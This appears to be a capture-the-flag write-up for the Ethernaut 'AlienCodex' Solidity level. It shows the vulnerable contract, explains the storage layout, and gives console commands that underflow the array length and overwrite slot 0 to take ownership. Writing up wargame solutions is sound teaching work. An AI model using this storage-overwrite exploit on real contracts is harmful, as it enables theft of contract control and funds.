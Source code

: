 <img src="aliencordex.png" alt="aliencordex" />


```
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import '../helpers/Ownable-05.sol';

contract AlienCodex is Ownable {

  bool public contact;
  bytes32[] public codex;

  modifier contacted() {
    assert(contact);
    _;
  }
  
  function make_contact() public {
    contact = true;
  }

  function record(bytes32 _content) contacted public {
  	codex.push(_content);
  }

  function retract() contacted public {
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
```

<hr />

# Hack

The AlienCodex contract inherits the Ownable contract and on inspecting the contract.abi we can get that ownable has a state variable owner where owner of the AlienCodex is stored and slot allocation starts with the inherited contract from left to right and Owner is only the contract AlienCodex inherits and slot allocation starts from Owner.

To call any of the function, contact state variable must be true as assert(contact) must be passed. So, call the make_contract function first to pass the modifier.

```
await contract.make_contact()
```

Now the pass this level, we have to call retract function to change the array length to 2^256 because of the underflow as initial length of codex is 0 and it gives us the possibility to set value to the entire storage area of 2^256. This exploit works because of the fact that the EVM doesn't validate an array's ABI-encoded length vs its actual payload.

```
await contract.retract()
```

And, we have dynamic array of bytes32 and it can store dynamic number of values and we have to find codex index such that slot is 0 so we can override the owner address.

```
owner takes 20bytes of storage and boolean takes 1 bytes of storage and they can be stored in the same slot 0.

Slot for codex index can be calculated as: keccak256(p) + index * elementSize (how many slots they occupy) = keccak256(p) + index * 1
p is the slot where the length of the array is stored./s

Max number of values codex can store is (2 ^ 256 - keccak256(1) + 1)

Slot                        Data Stored
0                   owner and contact both are stored
1                   Length of codex dynamic array is stored
.                        .
.                        .
.                        .
keccak256(1)        codex[0]
keccak256(1) + 1    codex[1]
.                    .
.                    .
.                    .
2^256 - 1            codex[2^256 - 1 - uint(keccak256(1))]
2^256 - 1 + 1 = 0    codex[2^256 - uint(keccak256(1))]

```
So at codex index of (2^256 - uint(keccak256(1))) overflow occurs and when we set the value for it and the slot 0 is overwritten.

index to override  = 2 ^ 256 - uint(keccak256(1)) = web3.utils.toBN(2).pow(web3.utils.toBN(256)).sub(web3.utils.toBN(web3.utils.soliditySha3({value: 1, type: 'uint256'})))

data to override = web3.eth.abi.encodeParameter("address", player)

Now finally run these in console to change ownership.

```
const index = web3.utils.toBN(2).pow(web3.utils.toBN(256)).sub(web3.utils.toBN(web3.utils.soliditySha3({value: 1, type: 'uint256'})))
const data = web3.eth.abi.encodeParameter("address", player)
await contract.revise(index, data);
```

Note: codex.length-- reports error in the latest compiler versions as length being read-only and cannot be used to resize arrays.